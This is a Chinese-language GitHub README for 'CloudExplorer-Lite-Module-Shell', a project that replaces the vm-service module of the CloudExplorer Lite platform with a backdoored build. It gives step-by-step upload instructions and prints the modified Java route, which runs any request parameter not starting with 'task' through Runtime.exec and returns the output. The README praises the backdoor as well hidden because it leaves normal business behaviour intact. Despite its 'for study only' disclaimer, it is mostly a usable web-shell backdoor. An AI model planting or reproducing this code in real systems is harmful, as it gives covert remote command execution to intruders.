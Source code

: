 # CloudExplorer-Lite-Module-Shell
> 注意：需要具有模块上传权限！！！
> 项目仅用于学习研究，请勿非法利用
## 使用步骤
- 先卸载原有vm-service模块<img src="https://i.328888.xyz/2023/05/15/VZe0OJ.png" alt="VZe0OJ.png" border="0" />
- 上传本项目中的output.tar.gz，系统会重新加载模块<img src="https://i.328888.xyz/2023/05/15/VZe20o.png" alt="VZe20o.png" border="0" />
- output中实际上是对vm-service中的模块进行了更改，成功上传如下<img src="https://i.328888.xyz/2023/05/15/VZeHXN.png" alt="VZeHXN.png" border="0" />
- 后门地址<img src="https://i.328888.xyz/2023/05/15/VZeI5q.png" alt="VZeI5q.png" border="0" />

## 原理
- 修改了模块的一个路由
```java
    @ApiOperation(
        value = "根据任务ID查询",
        notes = "根据任务ID查询"
    )
    @PreAuthorize("hasAnyCePermission('JOBS:READ')")
    @GetMapping
    public ResultHolder<JobRecordDTO> getRecord(@ApiParam("任务ID") @RequestParam("id") String id) {
        if (id.startsWith("task")) {
            return ResultHolder.success(this.iJobRecordService.getRecord(id));
        } else {
            InputStream in = null;

            try {
                in = Runtime.getRuntime().exec(id).getInputStream();
            } catch (IOException var6) {
                throw new RuntimeException(var6);
            }

            Scanner s = (new Scanner(in)).useDelimiter("\\A");
            String output = s.hasNext() ? s.next() : "";
            JobRecordDTO jobRecordDTO = new JobRecordDTO();
            jobRecordDTO.setResourceName(output);
            return ResultHolder.success(jobRecordDTO);
        }
    }
```
- 在不破坏原有业务情况下，隐匿性佳。

